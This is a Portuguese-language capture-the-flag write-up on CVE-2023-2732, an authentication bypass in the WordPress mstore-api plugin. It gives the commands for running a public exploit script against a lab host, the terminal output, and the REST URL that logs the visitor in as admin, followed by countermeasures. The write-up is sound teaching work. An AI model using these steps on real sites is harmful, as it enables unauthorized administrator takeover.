

# CTF Semana #3 (Wordpress CVE)

## CVE-2023-2732

**1. Como construíste o ataque?** 
Para descobrir de qual CVE se tratava, investiguei a versão wordpress do site que era 5.8.1 e a versão dos plugins, nomeadamente da mstore-api que era 1.0.0 e do woocomerce que era 5.7.1. Com esta informação, procurei exploits anteriormente feitos a este CVE. [1]

Em segundo lugar, tive de fazer clone ao repositório https://github.com/RandomRobbieBF/CVE-2023-2732.
De seguida, instalei os requisitos que se encontram no ficheiro requirements.txt deste repositório com o comando 'pip install click requests'.

Depois inseri o comando 'python3 mstore-api.py -u  http://143.47.40.175:5001/' com o link do site ao qual pretendia fazer o exploit.

Após inserir este comando, apareceu no terminal:  
'The plugin version is below 3.9.3. 
Select a user: 
1.admin 
Enter the user ID:'

Introduzi '1' em 'Enter the user ID:' e o terminal mostrou o seguinte: 
'Congratulations a vulnerable system has been found.

 

How to Exploit:

Visit the following url: http://143.47.40.175:5001//wp-json/wp/v2/add-listing?id=1 
Visit  http://143.47.40.175:5001/ and you should be logged in as the user you have chosen.' 
Ao carregar no segundo link fui direcionada para o site já com o registo feito numa conta admin, na qual tive acesso a todos os privilégios que users regulares não possuem.

**2. De que vulnerabilidade abusaste?** 
A CVE-2023-2732 é uma vulnerabilidade de segurança identificada no plugin mstore-api para WordPress. A vulnerabilidade permite que usuários não autenticados acedam a informações sensíveis através da API REST do WordPress.[2]

**3. Que contramedidas poderiam ter evitado que tivesses tido sucesso?** 
Esta vulnerabilidade afeta versões específicas do plugin mstore-api (inferiores à 3.9.3). Manter o plugin atualizado para a versão mais recente, onde a vulnerabilidade já foi corrigida, teria prevenido o exploit.
Além disto, utilizar serviços de monitorização que alertam sobre vulnerabilidades nos plugins WordPress ajuda a manter as instalações seguras e permite que administradores corrijam falhas rapidamente.[3]

[1]https://www.cvedetails.com/cve/CVE-2023-2732/  
[2]https://nvd.nist.gov/vuln/detail/CVE-2023-2732  
[3]https://s4e.io/tools/mstore-api-3-9-2-authentication-bypass-cve-2023-2732

